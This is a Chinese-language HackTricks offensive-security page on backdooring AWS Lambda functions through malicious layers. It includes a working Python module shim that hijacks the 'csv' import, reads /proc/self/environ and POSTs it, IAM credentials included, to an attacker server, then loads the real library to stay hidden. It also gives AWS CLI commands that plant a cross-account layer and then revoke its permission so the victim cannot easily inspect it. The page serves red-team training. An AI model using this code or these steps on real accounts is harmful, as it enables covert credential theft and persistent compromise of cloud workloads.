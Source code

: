 # AWS - Lambda Layers Persistence

{% hint style="success" %}
学习与实践 AWS 黑客技术：<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
学习与实践 GCP 黑客技术：<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**Telegram 群组**](https://t.me/peass) 或 **关注** 我们的 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub 仓库提交 PR 分享黑客技巧。

</details>
{% endhint %}

## Lambda Layers

Lambda 层是一个 .zip 文件归档，**可以包含额外的代码**或其他内容。一个层可以包含库、[自定义运行时](https://docs.aws.amazon.com/lambda/latest/dg/runtimes-custom.html)、数据或配置文件。

每个函数最多可以包含 **五个层**。当你在一个函数中包含一个层时，**内容会被提取到执行环境中的 `/opt`** 目录。

**默认情况下**，你创建的 **层** 对你的 AWS 账户是 **私有的**。你可以选择 **与其他账户共享** 一个层或 **将** 该层 **设为公共**。如果你的函数使用了其他账户发布的层，即使该层被删除或你被撤销访问权限，你的函数仍然可以 **继续使用该层版本**。然而，你不能使用已删除的层版本创建新函数或更新函数。

作为容器镜像部署的函数不使用层。相反，当你构建镜像时，将你所需的运行时、库和其他依赖项打包到容器镜像中。

### Python load path

Python 在 lambda 中使用的加载路径如下：
```
['/var/task', '/opt/python/lib/python3.9/site-packages', '/opt/python', '/var/runtime', '/var/lang/lib/python39.zip', '/var/lang/lib/python3.9', '/var/lang/lib/python3.9/lib-dynload', '/var/lang/lib/python3.9/site-packages', '/opt/python/lib/python3.9/site-packages']
```
检查 **第二** 和 **第三** **位置** 被 **lambda layers** 解压其文件的目录占用情况： **`/opt/python/lib/python3.9/site-packages`** 和 **`/opt/python`**

{% hint style="danger" %}
如果攻击者成功地 **后门** 一个被使用的 lambda **layer** 或 **添加一个** 在加载常用库时会 **执行任意代码** 的 **layer**，他将能够在每次 lambda 调用时执行恶意代码。
{% endhint %}

因此，要求是：

* **检查** 受害者代码 **加载的库**
* 创建一个 **带有 lambda layers 的代理库**，该库将 **执行自定义代码** 并 **加载原始** 库。

### 预加载的库

{% hint style="warning" %}
在滥用此技术时，我发现了一个困难：一些库在你的代码执行时已经在 python 运行时中 **被加载**。我原本期待找到像 `os` 或 `sys` 这样的库，但 **甚至 `json` 库也被加载**。\
为了滥用这种持久性技术，代码需要 **加载一个在代码执行时未加载的新库**。
{% endhint %}

使用这样的 python 代码，可以获得 lambda 中 python 运行时 **预加载的库列表**：
```python
import sys

def lambda_handler(event, context):
return {
'statusCode': 200,
'body': str(sys.modules.keys())
}
```
这是**列表**（检查像`os`或`json`这样的库是否已经存在）
```
'sys', 'builtins', '_frozen_importlib', '_imp', '_thread', '_warnings', '_weakref', '_io', 'marshal', 'posix', '_frozen_importlib_external', 'time', 'zipimport', '_codecs', 'codecs', 'encodings.aliases', 'encodings', 'encodings.utf_8', '_signal', 'encodings.latin_1', '_abc', 'abc', 'io', '__main__', '_stat', 'stat', '_collections_abc', 'genericpath', 'posixpath', 'os.path', 'os', '_sitebuiltins', 'pwd', '_locale', '_bootlocale', 'site', 'types', 'enum', '_sre', 'sre_constants', 'sre_parse', 'sre_compile', '_heapq', 'heapq', 'itertools', 'keyword', '_operator', 'operator', 'reprlib', '_collections', 'collections', '_functools', 'functools', 'copyreg', 're', '_json', 'json.scanner', 'json.decoder', 'json.encoder', 'json', 'token', 'tokenize', 'linecache', 'traceback', 'warnings', '_weakrefset', 'weakref', 'collections.abc', '_string', 'string', 'threading', 'atexit', 'logging', 'awslambdaric', 'importlib._bootstrap', 'importlib._bootstrap_external', 'importlib', 'awslambdaric.lambda_context', 'http', 'email', 'email.errors', 'binascii', 'email.quoprimime', '_struct', 'struct', 'base64', 'email.base64mime', 'quopri', 'email.encoders', 'email.charset', 'email.header', 'math', '_bisect', 'bisect', '_random', '_sha512', 'random', '_socket', 'select', 'selectors', 'errno', 'array', 'socket', '_datetime', 'datetime', 'urllib', 'urllib.parse', 'locale', 'calendar', 'email._parseaddr', 'email.utils', 'email._policybase', 'email.feedparser', 'email.parser', 'uu', 'email._encoded_words', 'email.iterators', 'email.message', '_ssl', 'ssl', 'http.client', 'runtime_client', 'numbers', '_decimal', 'decimal', '__future__', 'simplejson.errors', 'simplejson.raw_json', 'simplejson.compat', 'simplejson._speedups', 'simplejson.scanner', 'simplejson.decoder', 'simplejson.encoder', 'simplejson', 'awslambdaric.lambda_runtime_exception', 'awslambdaric.lambda_runtime_marshaller', 'awslambdaric.lambda_runtime_client', 'awslambdaric.bootstrap', 'awslambdaric.__main__', 'lambda_function'
```
这是**lambda 默认包含的库**列表：[https://gist.github.com/gene1wood/4a052f39490fae00e0c3](https://gist.github.com/gene1wood/4a052f39490fae00e0c3)

### Lambda 层后门

在这个例子中，假设目标代码正在导入**`csv`**。我们将对**`csv`库的导入进行后门处理**。

为此，我们将创建目录csv，并在其中放置文件**`__init__.py`**，路径为lambda加载的路径：**`/opt/python/lib/python3.9/site-packages`**\
然后，当lambda执行并尝试加载**csv**时，我们的**`__init__.py`文件将被加载并执行**。\
该文件必须：

* 执行我们的有效载荷
* 加载原始的csv库

我们可以通过以下方式实现这两者：
```python
import sys
from urllib import request

with open("/proc/self/environ", "rb") as file:
url= "https://attacker13123344.com/" #Change this to your server
req = request.Request(url, data=file.read(), method="POST")
response = request.urlopen(req)

# Remove backdoor directory from path to load original library
del_path_dir = "/".join(__file__.split("/")[:-2])
sys.path.remove(del_path_dir)

# Remove backdoored loaded library from sys.modules
del sys.modules[__file__.split("/")[-2]]

# Load original library
import csv as _csv

sys.modules["csv"] = _csv
```
然后，创建一个 zip 文件，包含路径 **`python/lib/python3.9/site-packages/__init__.py`** 中的代码，并将其添加为 lambda 层。

您可以在 [**https://github.com/carlospolop/LambdaLayerBackdoor**](https://github.com/carlospolop/LambdaLayerBackdoor) 找到此代码。

集成的有效载荷将在 **首次调用或在 lambda 容器重置后**（代码更改或冷 lambda）**发送 IAM 凭证到服务器**，但 **其他技术** 也可以集成，如下所示：

{% content-ref url="../../aws-post-exploitation/aws-lambda-post-exploitation/aws-warm-lambda-persistence.md" %}
[aws-warm-lambda-persistence.md](../../aws-post-exploitation/aws-lambda-post-exploitation/aws-warm-lambda-persistence.md)
{% endcontent-ref %}

### 外部层

请注意，可以使用 **来自外部账户的 lambda 层**。此外，即使没有权限，lambda 也可以使用来自外部账户的层。\
还要注意，**一个 lambda 最多可以有 5 个层**。

因此，为了提高此技术的灵活性，攻击者可以：

* 在用户的现有层中植入后门（没有任何外部内容）
* **在** **他的账户中创建**一个**层**，给予**受害者账户使用**该层的**访问权限**，**配置**受害者的 Lambda 中的**层**并**移除权限**。
* **Lambda** 仍然能够**使用该层**，而**受害者**将没有任何简单的方法来**下载层代码**（除了在 lambda 内部获取反向 shell）。
* 受害者**不会看到**使用 **`aws lambda list-layers`** 的外部层。

{% code overflow="wrap" %}
```bash
# Upload backdoor layer
aws lambda publish-layer-version --layer-name "ExternalBackdoor" --zip-file file://backdoor.zip --compatible-architectures "x86_64" "arm64" --compatible-runtimes "python3.9" "python3.8" "python3.7" "python3.6"

# Give everyone access to the lambda layer
## Put the account number in --principal to give access only to an account
aws lambda add-layer-version-permission --layer-name ExternalBackdoor --statement-id xaccount --version-number 1 --principal '*' --action lambda:GetLayerVersion

## Add layer to victims Lambda

# Remove permissions
aws lambda remove-layer-version-permission --layer-name ExternalBackdoor --statement-id xaccount --version-number 1
```
{% endcode %}

{% hint style="success" %}
学习与实践 AWS 黑客技术：<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
学习与实践 GCP 黑客技术：<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**Telegram 群组**](https://t.me/peass) 或 **关注** 我们的 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub 仓库提交 PR 来分享黑客技巧。

</details>
{% endhint %}
